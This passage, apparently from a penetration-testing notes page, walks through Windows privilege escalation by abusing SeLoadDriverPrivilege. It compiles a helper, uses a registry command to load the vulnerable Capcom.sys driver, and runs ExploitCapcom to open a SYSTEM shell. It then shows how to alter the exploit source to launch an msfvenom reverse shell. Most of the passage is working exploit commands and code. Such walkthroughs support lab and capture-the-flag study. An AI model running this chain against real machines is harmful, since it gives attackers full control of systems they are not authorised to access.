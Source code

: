 Next, from a Visual Studio 2019 Developer Command Prompt, compile it using **cl.exe**:
```console
C:\zeropio> cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp
```

Downlaod the plugin from [here](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys) and use the following command:
```console
C:\zeropio> reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"
```

With Nirsoft's [DriverView.exe](https://www.nirsoft.net/utils/driverview.html) we can verify the driver is not loaded:
```console
PS C:\zeropio> .\DriverView.exe /stext drivers.txt
PS C:\zeropio> cat drivers.txt | Select-String -pattern Capcom
```

Run the **EnableSeLoadDriverPrivilege.exe** binary:
```console
C:\zeropio> EnableSeLoadDriverPrivilege.exe
```

Next, verify that the Capcom driver is now listed:
```console
PS C:\zeropio> .\DriverView.exe /stext drivers.txt
PS C:\zeropio> cat drivers.txt | Select-String -pattern Capcom
```

Now we can use the [ExploitCapcom](https://github.com/tandasat/ExploitCapcom):
```console
PS C:\zeropio> .\ExploitCapcom.exe
```

This launches a shell with SYSTEM privileges.

If we do not have GUI access to the target, we will have to modify the ExploitCapcom.cpp code before compiling. Here we can edit line 292 and replace `C:\\Windows\\system32\\cmd.exe`{: .filepath} with, say, a reverse shell binary created with msfvenom, for example: `c:\ProgramData\revshell.exe`{: filepath}.
```c
// Launches a command shell process
static bool LaunchShell()
{
    TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
    PROCESS_INFORMATION ProcessInfo;
    STARTUPINFO StartupInfo = { sizeof(StartupInfo) };
    if (!CreateProcess(CommandLine, CommandLine, nullptr, nullptr, FALSE,
        CREATE_NEW_CONSOLE, nullptr, nullptr, &StartupInfo,
        &ProcessInfo))
    {
        return false;
    }

    CloseHandle(ProcessInfo.hThread);
    CloseHandle(ProcessInfo.hProcess);
    return true;
}
```
